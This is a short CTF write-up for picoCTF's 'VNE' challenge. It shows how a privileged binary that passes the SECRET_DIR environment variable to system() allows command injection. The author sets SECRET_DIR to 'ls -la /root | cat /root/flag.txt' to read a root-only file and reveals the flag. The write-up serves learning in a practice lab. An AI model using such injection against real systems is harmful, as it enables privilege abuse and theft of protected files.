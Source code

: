 # VNE

This challenge from [picoCTF](https://play.picoctf.org/practice/challenge/387) ask us to connect in ssh to a remote linux environment.

Once we are connectedd, we can execute a binnary named `bin`:

```
❯ ssh ctf-player@saturn.picoctf.net -p 64293
ctf-player@saturn.picoctf.net's password:
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Wed Nov 20 09:57:07 2024 from 127.0.0.1
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
```
It asks us to set the `SECRET_DIR` to any directory, let's try `/root`:
```
ctf-player@pico-chall$ export SECRET_DIR=/root
ctf-player@pico-chall$ ./bin
Listing the content of /root as root:
flag.txt
ctf-player@pico-chall$ export SECRET_DIR='/root'
ctf-player@pico-chall$ ./bin
Listing the content of /root as root:
flag.txt
```
Now, let's try to inject some commands in this varialbe:
```
ctf-player@pico-chall$ export SECRET_DIR='ls -la /root'
ctf-player@pico-chall$ ./bin
Listing the content of ls -la /root as root:
ls: cannot access 'ls': No such file or directory
/root:
total 12
drwx------ 1 root root   22 Aug  4  2023 .
drwxr-xr-x 1 root root   62 Nov 20 09:55 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
-rw------- 1 root root   41 Aug  4  2023 flag.txt
Error: system() call returned non-zero value: 512
ctf-player@pico-chall$ export SECRET_DIR='ls -la /root | cat /root/flag.txt'
ctf-player@pico-chall$ ./bin
Listing the content of ls -la /root | cat /root/flag.txt as root:
ls: cannot access 'ls'picoCTF{Power_t0_man!pul4t3_3nv_1ac0e5a3}: No such file or directory
ctf-player@pico-chall$
```

That's it, we get the flag.